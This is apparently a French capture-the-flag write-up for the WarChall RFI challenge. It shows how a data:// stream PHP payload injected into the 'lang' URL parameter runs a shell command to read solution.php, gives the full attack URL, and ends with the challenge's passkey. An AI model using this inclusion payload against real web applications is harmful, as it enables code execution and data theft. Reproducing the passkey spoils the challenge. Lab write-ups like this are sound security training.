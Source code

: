 _RFI (Remote File Inclusion)_  est une vulnérabilité de sécurité qui peut survenir dans les applications web en utilisant Data Stream.
Il mentionne l'utilisation de Data Stream avec l'exemple suivant : *data://text/plain,<?php echo file_get_contents("solution.php"); ?>*.

Pour notre probleme, il faut voir le contenu de fichier *solution.php*

**Etape à suivre**
1. Allez dans le lien principal de [RFI](https://rfi.warchall.net/)
2. Cliquer sur le logo de langue (choix de langue) => exemple : [RFI langue](https://rfi.warchall.net/index.php?lang=en)
3. Effacer "en" et remplacer par la methode d'attaque Data stream => *data://text/plain,<?php echo`cat solution.php`; ?>*
[lien complet](https://rfi.warchall.net/index.php?lang=data://text/plain,%3C?php%20echo`cat%20solution.php`;%20?%3E)
4. Après, il donne ça : 
````sh
NOTHING HERE????

Warning: Trying to access array offset on value of type int in /home/level/15_live_rfi/www/index.php on line 36

Warning: Trying to access array offset on value of type int in /home/level/15_live_rfi/www/index.php on line 36
````
Il suggère que c'est pas là !!!

5. Donc, Il faut inspecter ce site et le solution est là (^,^)
````sh
<!--?php return 'Low_H4NGING_Fruit'; ?-->
````
The passkey is : **Low_H4NGING_Fruit**







